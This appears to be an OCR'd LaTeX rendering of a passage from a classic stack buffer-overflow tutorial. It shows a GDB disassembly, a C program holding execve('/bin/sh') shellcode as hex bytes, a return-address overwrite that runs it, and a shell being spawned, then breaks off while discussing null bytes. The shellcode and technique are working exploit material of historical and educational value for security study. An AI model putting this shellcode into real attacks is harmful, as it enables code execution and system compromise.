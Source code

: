 \documentclass[10pt]{article}
\begin{document}
{{\begin{verbatim}
There is absolutely no warranty for GDB; type 
"show warranty" for details.  

GDB 4.15 (i586-unknown-linux), Copyright 1995 
Free Software Foundation, Inc...

(gdb) disassemble main
Dump of assembler code for function main:
0x8000130 :    pushl  %ebp
0x8000131 :    movl   %esp,%ebp
0x8000133 :    jmp    0x800015f 
0x8000135 :    popl   %esi
0x8000136 :    movl   %esi,0x8(%esi)
0x8000139 :    movb   $0x0,0x7(%esi)
0x800013d :    movl   $0x0,0xc(%esi)
0x8000144 :    movl   $0xb,%eax
0x8000149 :    movl   %esi,%ebx
0x800014b :    leal   0x8(%esi),%ecx
0x800014e :    leal   0xc(%esi),%edx
0x8000151 :    int    $0x80
0x8000153 :    movl   $0x1,%eax
0x8000158 :    movl   $0x0,%ebx
0x800015d :    int    $0x80
0x800015f :    call   0x8000135 
0x8000164 :    das
0x8000165 :    boundl 0x6e(%ecx),%ebp
0x8000168 :    das
0x8000169 :    jae    0x80001d3 <__new_exitfn+55>
0x800016b :    addb   %cl,0x55c35dec(%ecx)
End of assembler dump.

(gdb) x/bx main+3
0x8000133 :     0xeb

(gdb)
0x8000134 :     0x2a

(gdb)
.
.
.
\end{verbatim}
}

\begin{lstlisting}[basicstyle=\tiny,caption=testsc.c]
char shellcode[] =
"\xeb\x2a\x5e\x89\x76\x08\xc6\x46\x07\x00\xc7\x46\x0c\x00\x00\x00"
"\x00\xb8\x0b\x00\x00\x00\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80"
"\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xd1\xff\xff"
"\xff\x2f\x62\x69\x6e\x2f\x73\x68\x00\x89\xec\x5d\xc3";

void main() 
{
   int *ret;
   ret = (int *)&ret + 2;

   (*ret) = (int)shellcode;
}
\end{lstlisting}

\begin{verbatim}
[aleph1]$ gcc -o testsc testsc.c
[aleph1]$ ./testsc
$ exit
[aleph1]$
\end{verbatim}

It works! But there is an obstacle. In most cases we'll be trying to overflow a character buffer. As such any null 
bytes in our shellcode will be considered the end of the string, and the copy will be terminated. There must 
be no null bytes in the shellcode for the exploit to work. Let's try to eliminate the bytes (and at the same 
time make it smaller).

\begin{tabular}{lll}
           Problem instruction: &   &             Substitute with: \\


\end{tabular}}
\end{document}
